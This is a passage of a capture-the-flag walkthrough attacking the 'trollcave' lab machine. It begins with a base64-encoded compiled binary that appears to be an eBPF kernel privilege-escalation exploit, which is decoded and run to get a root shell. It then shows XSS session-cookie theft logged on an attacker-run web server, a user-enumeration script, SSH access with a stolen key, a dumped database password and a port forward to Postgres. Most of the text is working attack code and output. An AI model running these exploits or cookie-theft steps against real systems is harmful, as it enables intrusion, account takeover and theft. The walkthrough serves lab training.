AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAEAoAAAAAAADQCQAAAAAAAAEAAAAAAAAAAQAAAAAAAAAMAAAAAAAA
AAAIAAAAAAAADQAAAAAAAABkEQAAAAAAABkAAAAAAAAA6B0gAAAAAAAbAAAAAAAAAAgAAAAAAAAA
GgAAAAAAAADwHSAAAAAAABwAAAAAAAAACAAAAAAAAAD1/v9vAAAAAJgCAAAAAAAABQAAAAAAAACg
BAAAAAAAAAYAAAAAAAAAwAIAAAAAAAAKAAAAAAAAAOkAAAAAAAAACwAAAAAAAAAYAAAAAAAAABUA
AAAAAAAAAAAAAAAAAAADAAAAAAAAAAAgIAAAAAAAAgAAAAAAAAA4AQAAAAAAABQAAAAAAAAABwAA
AAAAAAAXAAAAAAAAAMgGAAAAAAAABwAAAAAAAADYBQAAAAAAAAgAAAAAAAAA8AAAAAAAAAAJAAAA
AAAAABgAAAAAAAAA+///bwAAAAAAAAAIAAAAAP7//28AAAAAuAUAAAAAAAD///9vAAAAAAEAAAAA
AAAA8P//bwAAAACKBQAAAAAAAPn//28AAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAD4HSAAAAAAAAAAAAAAAAAA
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
NgIAABEAGQDIICAAAAAAAAQAAAAAAAAAPAIAABIAAAAAAAAAAAAAAAAAAAAAAAAAkAIAABIAAAAA
AAAAAAAAAAAAAAAAAAAAUAIAABEAGQDMICAAAAAAAAQAAAAAAAAAVwIAABIAAAAAAAAAAAAAAAAA
AAAAAAAAdgIAABEAGQDgICAAAAAAAAAAAQAAAAAAggIAABAAGACAICAAAAAAAAAAAAAAAAAAjwIA
ABIAAAAAAAAAAAAAAAAAAAAAAAAApAIAABIAAAAAAAAAAAAAAAAAAAAAAAAAuQIAACAAAAAAAAAA
AAAAAAAAAAAAAAAAyAIAABECGACIICAAAAAAAAAAAAAAAAAA1QIAABIAAAAAAAAAAAAAAAAAAAAA
AAAA7QIAABEAEABwEQAAAAAAAAQAAAAAAAAA/AIAABIADgDwEAAAAAAAAGUAAAAAAAAAOwEAABAA
GQDgICEAAAAAAAAAAAAAAAAAiAIAABIADgAQCQAAAAAAACsAAAAAAAAADAMAABAAGQCYICAAAAAA
AAAAAAAAAAAAGAMAABIADgDBEAAAAAAAACAAAAAAAAAAHQMAABIAAAAAAAAAAAAAAAAAAAAAAAAA
MQMAABIAAAAAAAAAAAAAAAAAAAAAAAAAQwMAABECGACYICAAAAAAAAAAAAAAAAAATwMAACAAAAAA
AAAAAAAAAAAAAAAAAAAAaQMAABIAAAAAAAAAAAAAAAAAAAAAAAAAfwMAACIAAAAAAAAAAAAAAAAA
AAAAAAAABgMAABIACwAACAAAAAAAAAAAAAAAAAAAmwMAABEAGQCgICAAAAAAAAgAAAAAAAAAAGNy
dHN0dWZmLmMAZGVyZWdpc3Rlcl90bV9jbG9uZXMAX19kb19nbG9iYWxfZHRvcnNfYXV4AGNvbXBs
ZXRlZC43MDkwAF9fZG9fZ2xvYmFsX2R0b3JzX2F1eF9maW5pX2FycmF5X2VudHJ5AGZyYW1lX2R1
bW15AF9fZnJhbWVfZHVtbXlfaW5pdF9hcnJheV9lbnRyeQBwcml2ZXNjLmMAYnBmX3Byb2dfbG9h
ZABicGZfY3JlYXRlX21hcABicGZfdXBkYXRlX2VsZW0AYnBmX2xvb2t1cF9lbGVtAF9fZXhpdABw
cmVwAHdyaXRlbXNnAGdldF92YWx1ZQBfX2dldF9mcABfX3JlYWQAX193cml0ZQBnZXRfc3AAcHdu
AF9fRlJBTUVfRU5EX18AX19pbml0X2FycmF5X2VuZABfRFlOQU1JQwBfX2luaXRfYXJyYXlfc3Rh
cnQAX19HTlVfRUhfRlJBTUVfSERSAF9HTE9CQUxfT0ZGU0VUX1RBQkxFXwBfX2xpYmNfY3N1X2Zp
bmkAX19lcnJub19sb2NhdGlvbkBAR0xJQkNfMi4yLjUAX19wcm9nAF9JVE1fZGVyZWdpc3RlclRN
Q2xvbmVUYWJsZQBwdXRzQEBHTElCQ18yLjIuNQBzZXRzb2Nrb3B0QEBHTElCQ18yLjIuNQB3cml0
ZUBAR0xJQkNfMi4yLjUAX2VkYXRhAGdldHVpZEBAR0xJQkNfMi4yLjUAc29ja2V0cwBtYXBmZABz
eXN0ZW1AQEdMSUJDXzIuMi41AHByb2dmZABfX2xpYmNfc3RhcnRfbWFpbkBAR0xJQkNfMi4yLjUA
YnBmX2xvZ19idWYAX19kYXRhX3N0YXJ0AGZwcmludGZAQEdMSUJDXzIuMi41AHN5c2NhbGxAQEdM
SUJDXzIuMi41AF9fZ21vbl9zdGFydF9fAF9fZHNvX2hhbmRsZQBzb2NrZXRwYWlyQEBHTElCQ18y
LjIuNQBfSU9fc3RkaW5fdXNlZABfX2xpYmNfY3N1X2luaXQAX19ic3Nfc3RhcnQAbWFpbgBwZXJy
b3JAQEdMSUJDXzIuMi41AGV4aXRAQEdMSUJDXzIuMi41AF9fVE1DX0VORF9fAF9JVE1fcmVnaXN0
ZXJUTUNsb25lVGFibGUAc3RyZXJyb3JAQEdMSUJDXzIuMi41AF9fY3hhX2ZpbmFsaXplQEBHTElC
Q18yLjIuNQBzdGRlcnJAQEdMSUJDXzIuMi41AAAuc3ltdGFiAC5zdHJ0YWIALnNoc3RydGFiAC5p
bnRlcnAALm5vdGUuQUJJLXRhZwAubm90ZS5nbnUuYnVpbGQtaWQALmdudS5oYXNoAC5keW5zeW0A
LmR5bnN0cgAuZ251LnZlcnNpb24ALmdudS52ZXJzaW9uX3IALnJlbGEuZHluAC5yZWxhLnBsdAAu
aW5pdAAucGx0LmdvdAAudGV4dAAuZmluaQAucm9kYXRhAC5laF9mcmFtZV9oZHIALmVoX2ZyYW1l
AC5pbml0X2FycmF5AC5maW5pX2FycmF5AC5keW5hbWljAC5nb3QucGx0AC5kYXRhAC5ic3MALmNv
bW1lbnQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAGwAAAAEAAAACAAAAAAAAADgCAAAAAAAAOAIAAAAAAAAcAAAAAAAAAAAA
AAAAAAAAAQAAAAAAAAAAAAAAAAAAACMAAAAHAAAAAgAAAAAAAABUAgAAAAAAAFQCAAAAAAAAIAAA
AAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAxAAAABwAAAAIAAAAAAAAAdAIAAAAAAAB0AgAA
AAAAACQAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAARAAAAPb//28CAAAAAAAAAJgCAAAA
AAAAmAIAAAAAAAAkAAAAAAAAAAUAAAAAAAAACAAAAAAAAAAAAAAAAAAAAE4AAAALAAAAAgAAAAAA
AADAAgAAAAAAAMACAAAAAAAA4AEAAAAAAAAGAAAAAQAAAAgAAAAAAAAAGAAAAAAAAABWAAAAAwAA
AAIAAAAAAAAAoAQAAAAAAACgBAAAAAAAAOkAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAA
XgAAAP///28CAAAAAAAAAIoFAAAAAAAAigUAAAAAAAAoAAAAAAAAAAUAAAAAAAAAAgAAAAAAAAAC
AAAAAAAAAGsAAAD+//9vAgAAAAAAAAC4BQAAAAAAALgFAAAAAAAAIAAAAAAAAAAGAAAAAQAAAAgA
AAAAAAAAAAAAAAAAAAB6AAAABAAAAAIAAAAAAAAA2AUAAAAAAADYBQAAAAAAAPAAAAAAAAAABQAA
AAAAAAAIAAAAAAAAABgAAAAAAAAAhAAAAAQAAABCAAAAAAAAAMgGAAAAAAAAyAYAAAAAAAA4AQAA
AAAAAAUAAAAXAAAACAAAAAAAAAAYAAAAAAAAAI4AAAABAAAABgAAAAAAAAAACAAAAAAAAAAIAAAA
AAAAFwAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAACJAAAAAQAAAAYAAAAAAAAAIAgAAAAA
AAAgCAAAAAAAAOAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAABAAAAAAAAAAlAAAAAEAAAAGAAAAAAAA
AAAJAAAAAAAAAAkAAAAAAAAIAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAAJ0AAAABAAAA
BgAAAAAAAAAQCQAAAAAAABAJAAAAAAAAUggAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAACj
AAAAAQAAAAYAAAAAAAAAZBEAAAAAAABkEQAAAAAAAAkAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAA
AAAAAAAAqQAAAAEAAAACAAAAAAAAAHARAAAAAAAAcBEAAAAAAAAFAgAAAAAAAAAAAAAAAAAACAAA
AAAAAAAAAAAAAAAAALEAAAABAAAAAgAAAAAAAAB4EwAAAAAAAHgTAAAAAAAApAAAAAAAAAAAAAAA
AAAAAAQAAAAAAAAAAAAAAAAAAAC/AAAAAQAAAAIAAAAAAAAAIBQAAAAAAAAgFAAAAAAAAKgCAAAA
AAAAAAAAAAAAAAAIAAAAAAAAAAAAAAAAAAAAyQAAAA4AAAADAAAAAAAAAOgdIAAAAAAA6B0AAAAA
AAAIAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAANUAAAAPAAAAAwAAAAAAAADwHSAAAAAA
APAdAAAAAAAACAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAACAAAAAAAAADhAAAABgAAAAMAAAAAAAAA
+B0gAAAAAAD4HQAAAAAAAOABAAAAAAAABgAAAAAAAAAIAAAAAAAAABAAAAAAAAAAmAAAAAEAAAAD
AAAAAAAAANgfIAAAAAAA2B8AAAAAAAAoAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAAOoA
AAABAAAAAwAAAAAAAAAAICAAAAAAAAAgAAAAAAAAgAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAACAAA
AAAAAADzAAAAAQAAAAMAAAAAAAAAgCAgAAAAAACAIAAAAAAAABgAAAAAAAAAAAAAAAAAAAAIAAAA
AAAAAAAAAAAAAAAA+QAAAAgAAAADAAAAAAAAAKAgIAAAAAAAmCAAAAAAAABAAAEAAAAAAAAAAAAA
AAAAIAAAAAAAAAAAAAAAAAAAAP4AAAABAAAAMAAAAAAAAAAAAAAAAAAAAJggAAAAAAAAHQAAAAAA
AAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAAABAAAAAgAAAAAAAAAAAAAAAAAAAAAAAAC4IAAAAAAA
AOgIAAAAAAAAHAAAADkAAAAIAAAAAAAAABgAAAAAAAAACQAAAAMAAAAAAAAAAAAAAAAAAAAAAAAA
oCkAAAAAAACvAwAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAABEAAAADAAAAAAAAAAAAAAAA
AAAAAAAAAE8tAAAAAAAABwEAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAA=
root@kali:~/trollcave#
```

```sh
rails@trollcave:~$ vi privesc.b64
rails@trollcave:~$ base64 -d privesc.b64 > exploit
rails@trollcave:~$ chmod +x exploit
rails@trollcave:~$ ./exploit
task_struct = ffff88002bffc600
uidptr = ffff88002ed12f04
spawning root shell
root@trollcave:~# id
uid=0(root) gid=0(root) groups=0(root),1001(rails)
root@trollcave:~# cd /root
root@trollcave:/root# cat flag.txt
et tu, dragon?

c0db34ce8adaa7c07d064cc1697e3d7cb8aec9d5a0c4809d5a0c4809b6be23044d15379c5
root@trollcave:/root#
```

###### Method 2


###### XSS

```
http://192.168.1.30/blogs/4
```

```js
</img>
```


```sh
root@kali:~/trollcave# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
192.168.1.28 - - [05/May/2018 22:24:20] code 404, message File not found
192.168.1.28 - - [05/May/2018 22:24:20] "GET /_thirtytwo_session=d3RzR0w2NXJ2dW5Rd3ZOekRWK2k1OXhmcTdHMGlYM3hNcVhES3V1cmdERHQzcnV6ZUE1WWhhTnhYejJlREJaaDlUYUs2Z0c2UDAzeng5dkE2UmhVR2tCaTN5RzNTSDlDaSs5N2NaQWNEdFhuNys1VVVaTTZ4Y05xd0NOL1Y3N0ordzk0V0dKaGVvb0M4M2MzV080czZ0ZTVwQkI4c2dsMWFsOS9pdHJRWW16cmI2ZnVOekxGYXBvZW1qREw5NEpmb1o5bTBneHJORWFvUUxzMzN3YVpRYlNNZ2Nia1pCVUg3ajBEbzdmSlQ1UT0tLXV5QmVjaGZoa0V3cnkwRnRZaHRBQWc9PQ%3D%3D--bca282f4656649250f8ee1d2e8209fcdeeac02e4 HTTP/1.1" 404 -
192.168.1.30 - - [05/May/2018 22:24:50] code 404, message File not found
192.168.1.30 - - [05/May/2018 22:24:50] "GET /_thirtytwo_session=M01oaFI3MlBtU3ZiOXlrbWVRT0xHbUVqc2ExOVROVitvRHU2MVFOVHo5SmNscTRIbUMxY3ZRaHJSNkZ5TzczK1c0VXVEaFF1QzRqRklsa2ZKcVFPRi9RMlpGVnQxejZzRlJLTEh2WGZsQ3lmdlJZZjFoYlV6dlRvQlI3QTN4STdsU3lGZTZaNlVoUEI3bjVLYjJ5N0dMM1lialVpQ2FoWWtKSHpWU0w0SW9GY3pRZ1VOTkV1bTVSQ0h2UDc5Qk1pRzZ4dzM3WUZzanZ6dWZPR2w3R1hKTnhONi9YcXpzMENLMy8yamdGUnU5MD0tLWFPTjJqNEtSZWhlZTVJQnhtYkU0TlE9PQ%3D%3D--2b8b9de472dad8dea1867e0cddc536887ed03f38;%20user_id=NQ%3D%3D--70e5c8bd2a9640c394638691bc5c2b87b96f3899;%20remember_token=2in7-LxdmyMWq1c8LQ6Vgg;%20_thirtytwo_session=QXpmMXBlUmRUM1huSFRja1JabU9ld0tpVjBnWnZ1RU03dCtCM1dmWmVUL0JwRDJ5djdjemVIVXBoZXE1OEF0T29HWTFDMERGRThNMkZuSEYraFJOS21EVWJmK0dQRVV6OG9xbm9BTCtCSk5vU0JucDdOUm1yUVhGN3dyWENlaUw0OFg5azB6VDdvNm9VUDExdWhDMm95c3hYM0x0UTk3TFlhbXIya0lxQ1NNTVFNblQ1NkVFWWZRNmY0bS9ZVG9MNjFzZlJoQ0pTNGNsMkVRMTYxekpLc3lpZFhEeDdNY2NFeUlZUXN2d0JIdz0tLWtaZU9YaXFtK3YxaWUvN2VtWXVvOFE9PQ%3D%3D--534cfda65caeac6613724c2f3cf8a6a5fa85a19d HTTP/1.1" 404 -
192.168.1.30 - - [05/May/2018 22:25:40] code 404, message File not found
```


```
http://192.168.1.30/blogs/new
```


`user-role-enum.py`

```python
import requests
import re

def GetUserByID(id):
	response = (requests.get('http://192.168.1.30/users/' + str(id)).text).strip()
	# Match <a href="/send_pm?recipient_name=King">PM</a>
	username = re.search('recipient_name=(.*?)"', response).group(1)
	return username

def GetRoleByID(id):
	response = (requests.get('http://192.168.1.30/users/' + str(id)).text).strip()
	"""
	<div class='user-info'>
	<b>
	Superadmin
	</b>
	"""
	role = re.search('>\x0A<b>\x0A(.*?)\x0A</b>', response).group(1)
	return role

for i in range(0,20):
	try:
            print(str(i) + " : " + GetUserByID(i) + " : " + GetRoleByID(i))
	except:
		None
```

```sh
root@kali:~/trollcave# python user-role-enum.py
1 : King : Superadmin
2 : dave : Admin
3 : dragon : Admin
4 : coderguy : Admin
5 : cooldude89 : Moderator
6 : Sir : Moderator
7 : Q : Moderator
8 : teflon : Moderator
9 : TheDankMan : Regular member
10 : artemus : Regular member
11 : MrPotatoHead : Regular member
12 : Ian : Regular member
13 : kev : Member
14 : notanother : Member
15 : anybodyhome : Member
16 : onlyme : Member
17 : xer : Member
root@kali:~/trollcave#
```

```
http://192.168.1.30/users/
```


###### Web Server Enumeration

```sh
root@kali:~/trollcave# ssh -i id_rsa-rails rails@192.168.1.30
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Sun May  6 03:50:38 2018 from 192.168.1.28
$ bash
rails@trollcave:~$ cd /var/www/trollcave/
rails@trollcave:/var/www/trollcave$ ls -l
total 64
drwxr-xr-x 8 rails rails 4096 Sep 16  2016 app
drwxr-xr-x 2 rails rails 4096 Sep 16  2016 bin
drwxr-xr-x 5 rails rails 4096 Oct 23  2017 config
-rw-r--r-- 1 rails rails  153 Sep 16  2016 config.ru
drwxr-xr-x 3 rails rails 4096 Oct 23  2017 db
-rw-r--r-- 1 rails rails 1703 Sep 16  2016 Gemfile
-rw-r--r-- 1 rails rails 4837 Sep 16  2016 Gemfile.lock
drwxr-xr-x 4 rails rails 4096 Sep 16  2016 lib
drwxrwxr-x 2 rails rails 4096 Oct 21  2016 log
-rw-r--r-- 1 rails rails   40 Sep 16  2016 Procfile
drwxr-xr-x 4 rails rails 4096 Oct 21  2016 public
-rw-r--r-- 1 rails rails  249 Sep 16  2016 Rakefile
drwxr-xr-x 8 rails rails 4096 Sep 16  2016 test
drwxrwxr-x 6 rails rails 4096 Sep 16  2016 tmp
drwxr-xr-x 4 rails rails 4096 Sep 16  2016 vendor
rails@trollcave:/var/www/trollcave$ cd config
rails@trollcave:/var/www/trollcave/config$ ls -l
total 40
-rw-r--r-- 1 rails rails 1116 Sep 16  2016 application.rb
-rw-r--r-- 1 rails rails  132 Sep 16  2016 boot.rb
-rw-rw-r-- 1 rails rails  645 Oct 23  2017 database.yml
-rw-r--r-- 1 rails rails  150 Sep 28  2017 environment.rb
drwxr-xr-x 2 rails rails 4096 Oct 23  2017 environments
drwxr-xr-x 2 rails rails 4096 Sep 28  2017 initializers
drwxr-xr-x 2 rails rails 4096 Sep 16  2016 locales
-rw-rw-r-- 1 rails rails    0 Sep 16  2016 out
-rw-r--r-- 1 rails rails  480 Sep 16  2016 puma.rb
-rw-r--r-- 1 rails rails 2362 Sep 29  2017 routes.rb
-rw-rw-r-- 1 rails rails  151 Sep 16  2016 secrets.yml
rails@trollcave:/var/www/trollcave/config$ cat database.yml
# SQLite version 3.x
#   gem install sqlite3
#
#   Ensure the SQLite 3 gem is defined in your Gemfile
#   gem 'sqlite3'
#
default: &default
  adapter: sqlite3
  pool: 5
  timeout: 5000

development:
  <<: *default
  database: db/development.sqlite3

# Warning: The database defined as "test" will be erased and
# re-generated from your development database when you run "rake".
# Do not set this db to the same as development or production.
test:
  <<: *default
  database: db/test.sqlite3

production:
  adapter: postgresql
  encoding: unicode
  database: trollcave
  pool: 5
  host: localhost
  username: tc
  password: sowvillagedinnermoment
rails@trollcave:/var/www/trollcave/config$
rails@trollcave:/var/www/trollcave/config$ netstat -antp | grep LIST
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:3000            0.0.0.0:*               LISTEN      931/ruby2.3
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 ::1:5432                :::*                    LISTEN      -
rails@trollcave:/var/www/trollcave/config$
```

```
SHIFT + ~ + C
```

```sh
rails@trollcave:/var/www/trollcave/config$
ssh> help
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward

rails@trollcave:/var/www/trollcave/config$
rails@trollcave:/var/www/trollcave/config$
ssh> -L 5432:localhost:5432
Forwarding port.

rails@trollcave:/var/www/trollcave/config$
```

```sh
root@kali:~/trollcave# wget https://dbeaver.io/files/dbeaver-ce_latest_amd64.deb
root@kali:~/trollcave# dpkg -i dbeaver-ce_latest_amd64.deb
root@kali:~/trollcave# dbeaver &
[1] 5009
root@kali:~/trollcave#
```




```sh
rails@trollcave:~$ cd /var/www/trollcave/
rails@trollcave:/var/www/trollcave$ ls -l
total 64
drwxr-xr-x 8 rails rails 4096 Sep 16  2016 app
drwxr-xr-x 2 rails rails 4096 Sep 16  2016 bin
drwxr-xr-x 5 rails rails 4096 Oct 23  2017 config
-rw-r--r-- 1 rails rails  153 Sep 16  2016 config.ru
drwxr-xr-x 3 rails rails 4096 Oct 23  2017 db
-rw-r--r-- 1 rails rails 1703 Sep 16  2016 Gemfile
-rw-r--r-- 1 rails rails 4837 Sep 16  2016 Gemfile.lock
drwxr-xr-x 4 rails rails 4096 Sep 16  2016 lib
drwxrwxr-x 2 rails rails 4096 Oct 21  2016 log
-rw-r--r-- 1 rails rails   40 Sep 16  2016 Procfile
drwxr-xr-x 4 rails rails 4096 Oct 21  2016 public
-rw-r--r-- 1 rails rails  249 Sep 16  2016 Rakefile
drwxr-xr-x 8 rails rails 4096 Sep 16  2016 test
drwxrwxr-x 6 rails rails 4096 Sep 16  2016 tmp
drwxr-xr-x 4 rails rails 4096 Sep 16  2016 vendor
rails@trollcave:/var/www/trollcave$ cd db/
rails@trollcave:/var/www/trollcave/db$ ls -l
total 44
-rw-r--r-- 1 rails rails 30720 Sep 29  2017 development.sqlite3
